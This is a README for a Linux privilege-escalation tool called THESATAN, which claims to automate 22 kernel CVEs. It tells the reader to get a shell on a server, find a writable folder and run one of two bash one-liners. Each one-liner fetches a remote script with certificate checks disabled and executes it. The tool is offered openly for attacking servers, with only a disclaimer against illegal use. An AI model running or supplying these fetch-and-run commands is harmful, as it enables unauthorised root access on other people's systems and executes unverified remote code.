 ***☣THESATAN - Automation Privilage Escalation for Linux.***
> This tool made for testing a Privilage Escalation on server.

- 22 CVE Ready For Testing.
- Available for kernel 3.x.x / 4.x.x
- Work with python2.7 / python3+ also gcc installed on the machine.

**Usage:**
- Spawn A tty Shell In Terminal.
- You must find accessible directory without 'permission denied', then create your own folder.
- **Note: ❌Don't run THESATAN in public access or you will destroy yourself!**

**-NEW UPDATE **
`bash -c "$(curl -fsSLk https://raw.githubusercontent.com/warmode666/thesatan/main/thesatan.sh)"`
`bash -c "$(wget --no-check-certificate -qO- https://raw.githubusercontent.com/warmode666/thesatan/main/thesatan.sh)"`

***- Wait until THESATAN done.***

> [*] I am not responsible if you are doing something illegal using this program! 

[![THESATAN](https://i.ibb.co/8r23mBK/download.png "THESATAN")](https://i.ibb.co/8r23mBK/download.png "THESATAN")

[![SATAN](https://i.ibb.co/q7xcwwt/download-1.png "SATAN")](https://i.ibb.co/q7xcwwt/download-1.png "SATAN")
